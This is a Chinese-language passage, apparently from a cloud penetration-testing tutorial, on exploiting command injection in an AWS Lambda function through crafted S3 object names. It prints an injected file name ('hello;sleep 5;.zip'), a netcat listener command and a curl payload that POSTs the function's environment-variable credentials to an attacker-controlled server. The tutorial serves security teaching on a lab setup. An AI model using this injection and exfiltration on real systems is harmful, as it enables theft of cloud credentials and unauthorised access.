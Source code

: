 现在我们已经拼出了这个谜题的所有部分。我们知道 Lambda 函数运行一个带有变量（`file_download_path`）的 shell 命令，我们知道该变量由另一个变量（`object_key`）组成，我们知道该变量被设置为值`record['s3']['object']['key']`。我们还知道，每当文件上传到`"bucket-for-lambda-pentesting"` S3 存储桶时，就会调用这个 Lambda 函数，而且我们有必要的权限将文件上传到该存储桶。鉴于这一切，这意味着我们可以上传一个我们选择的文件，最终将其传递到一个 shell 命令中，这正是我们想要的，如果我们试图在系统上执行代码！

但是，等等；在运行 Lambda 函数的服务器上执行任意代码有什么好处呢？它是一个只读文件系统，而且我们已经有了源代码。更多的凭证，这就是好处！如果你还记得之前，我们需要创建一个 IAM 角色，附加到我们创建的 Lambda 函数上，然后允许我们的函数与 AWS API 进行身份验证。当 Lambda 函数运行时，它会假定附加到它的 IAM 角色，并获得一组临时凭证（记住，这是访问密钥 ID、秘密访问密钥和会话令牌）。Lambda 函数与 EC2 实例有些不同，这意味着没有`http://169.254.169.254`上的元数据服务，这意味着我们无法通过那里检索这些临时凭证。Lambda 的做法不同；它将凭证存储在环境变量中，所以一旦我们能在服务器上执行代码，我们就可以窃取这些凭证，然后我们将获得附加到 Lambda 函数的角色的所有权限。

在这种情况下，我们知道 LambdaRoleForVulnerableFunction IAM 角色具有完全的 S3 访问权限，这比我们微不足道的`PutObject`访问权限要多得多，它还具有一些 CloudWatch 日志权限。我们目前无法访问 CloudWatch 中的日志，所以我们需要将凭证窃取到我们控制的服务器上。否则，我们将无法读取这些值。

现在，让我们开始我们的有效载荷。有时，如果您将整个 Lambda 函数复制到自己的 AWS 帐户中，可能会有所帮助，这样您就可以使用有效载荷对其进行轰炸，直到找到有效的有效载荷，但我们将首先手动尝试。我们知道我们基本上控制`object_key`变量，最终将其放入 shell 命令中。因此，如果我们传入一个无害的值`"hello.zip"`，我们将看到以下内容：

```
Line 13: object_key is assigned the value of "hello.zip"

Line 14: object_key is URL decoded by urllib.parse.unquote_plus (Note: the reason this line is in the code is because the file name comes in with special characters URL encoded, so those need to be decoded to work with the S3 object directly)

Line 25: file_download_path is assigned the value of f'/tmp/{object_key.split("/")[-1]}', which ultimately resolves to "/tmp/hello.zip"

Lines 29-30: A shell command is run with the input f'zipinfo {file_download_path} | grep ^- | wc -l', which resolves to "zipinfo /tmp/hello.zip | grep ^- | wc -l".
```

似乎只有一个限制需要我们担心，那就是代码检查文件是否在第 16 行具有`.zip`扩展名。有了所有这些信息，我们现在可以开始制作恶意有效载荷。

`zipinfo /tmp/hello.zip`命令中直接包含了我们提供的字符串，因此我们只需要打破这个命令以运行我们自己的任意命令。如果我们将`hello.zip`更改为`hello;sleep 5;.zip`，那么最终命令将变成`"zipinfo /tmp/hello;sleep 5;.zip | grep ^- | wc -l"`。我们插入了几个分号，这会导致 shell 解释器（bash）认为有多个要执行的命令。不是运行单个命令`zipinfo /tmp/hello.zip`，而是运行`"zipinfo /tmp/hello"`，这将失败，因为那不是一个存在的文件；然后，它将运行`"sleep 5"`并休眠五秒，然后它将运行`".zip"`，这不是一个真正的命令，因此将抛出错误。

就像这样，我们已经将一个命令(`sleep 5`)注入到 Lambda 服务器的 shell 中。现在，因为这是盲目的（也就是说，我们看不到任何命令的输出），我们需要窃取我们想要的重要信息。支持 Lambda 函数的操作系统默认安装了`"curl"`，因此这将是进行外部请求的一种简单方法，我们知道 AWS 凭证存储在环境变量中，因此我们只需要`curl`凭证到我们控制的服务器。

为此，我在自己的服务器上设置了 NetCat 监听器（示例中的 IP 地址为`1.1.1.1`），端口为`80`，命令如下：

```
nc -nlvp 80
```

然后，我们将制定一个有效载荷，将窃取凭证。我们可以使用`"env"`命令访问环境变量，因此用 curl 向我们的外部服务器发出 HTTP POST 请求的一般命令，其中包括所有环境变量作为主体，如下所示：

```
curl -X POST -d "`env`" 1.1.1.1
```

这可能看起来有点奇怪，但因为`"env"`命令提供多行内容，所以需要将其放入引号中，否则它将破坏整个命令（尝试在自己的服务器上运行`"curl -X POST -d env 1.1.1.1"`并查看结果）。如果您不熟悉，反引号（`` ` ``）指示 bash 在执行整个`curl`命令之前运行`"env"`命令，这样它就会将这些变量`POST`到我们的外部服务器。此外，因为我们的服务器正在侦听端口`80`，所以我们不需要在`curl`命令中包括`http://`或端口，因为给定一个IP地址，默认情况下转到`http://1.1.1.1:80`. 这样我们可以避免很多不必要的字符。这可能不一定是一种传统的方法，但这个字符串的好处在于它很容易放入文件名，这正是我们利用这个 Lambda 函数所需要的！
